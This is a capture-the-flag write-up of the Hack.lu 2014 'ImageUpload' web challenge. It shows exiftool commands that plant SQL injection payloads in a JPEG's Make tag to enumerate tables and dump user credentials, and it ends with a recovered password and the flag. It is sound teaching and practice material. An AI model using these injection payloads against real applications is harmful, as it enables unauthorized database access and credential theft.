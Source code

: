 # Hack.lu CTF 2014: ImageUpload

**Category:** Web
**Points:** 200
**Author:** SLAZ
**Description:**

> In the Wild Wild Web, there are really bad guys. The sheriff doesn't know them all. Therefore, he needs your help.
Upload pictures of criminals to this [site](https://wildwildweb.fluxfingers.net:1421/) and help the sheriff to arrest them.
You can make this Wild Wild Web much less wild!!!
>
> Pictures will be deleted on regular basis!
>
> **Hint:** Bruteforce is not necessary to solve the challenge!!! Please don’t do this.

## Write-up

As stated in the challenge description, the site at <https://wildwildweb.fluxfingers.net:1421/> allows image uploads. There is also a login form, but since we don’t have an account, let’s ignore that for now.

Some trial and error reveals that only JPEGs are accepted. Any image you upload gets some effects applied to it to make it look like a Wild Western ‘Wanted’ poster:

![](poster.jpg)

The text on the image “Dr. Evil” reflects the original image’s `Artist` EXIF tag. Below the image, the original `Width`, `Height`, `Author` (i.e. `Artist`), `Manufacturer` (i.e. `Make`), and `Model` EXIF tags are shown. Let’s inject some interesting values there:

```bash
$ exiftool -Make="foo', (SELECT VERSION())) -- -" image.jpg
```

Uploading this image lists the `Manufacturer` as `foo`, and uses the result of `SELECT VERSION()` as the next value in the query, i.e. as if it was the value for `Model`. Yep, the app is vulnerable to SQL injection through EXIF data.

Let’s find out which tables exist in the current database:

```bash
$ exiftool -Make="foo', (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=DATABASE())) -- -" image.jpg
```

The result is `brute,pictures,users`. Hmm, what are the names of the columns in the `users` table?

```bash
$ exiftool -Make="foo', (SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='users')) -- -" image.jpg
```

Apparently, `id,name,password`. Those `name` and `password` columns sound interesting – let’s see what values are in there:

```bash
$ exiftool -Make="foo', (SELECT GROUP_CONCAT(CONCAT(name, ':', password)) FROM users)) -- -" image.jpg
```

The result: `sheriff:AO7eikkOCucCFJOyyaaQ,deputy:testpw`.

Logging in using `sheriff` as the username and `AO7eikkOCucCFJOyyaaQ` as the password reveals the flag `flag{1_5h07_7h3_5h3r1ff}`.

## Other write-ups and resources

* none yet
